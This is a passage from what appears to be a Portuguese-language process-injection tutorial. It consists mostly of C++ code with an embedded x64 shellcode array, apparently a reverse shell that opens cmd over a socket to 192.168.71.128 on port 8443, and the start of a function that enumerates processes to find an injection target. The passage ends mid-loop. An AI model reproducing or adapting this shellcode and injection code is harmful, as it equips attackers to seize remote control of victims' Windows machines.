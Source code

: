
Com estas informações em mãos, podemos criar o programa que fará o uso de todos os recursos necessários.

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

unsigned char payload[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x20\xfb\xc0\xa8\x47\x80"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int payload_len = sizeof(payload);

int findPID(const char *procName) {

    HANDLE hSnapshot;
    PROCESSENTRY32 pe32;
    int pid = 0;
    BOOL proc;

    // snapshot de todos os processos em execucao
    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

    // inicializando dwSize
    pe32.dwSize = sizeof(PROCESSENTRY32);

    // inicio da iteracao, primeiro processo
    proc = Process32First(hSnapshot, &pe32);

    // loop para iterar sobre os processos
```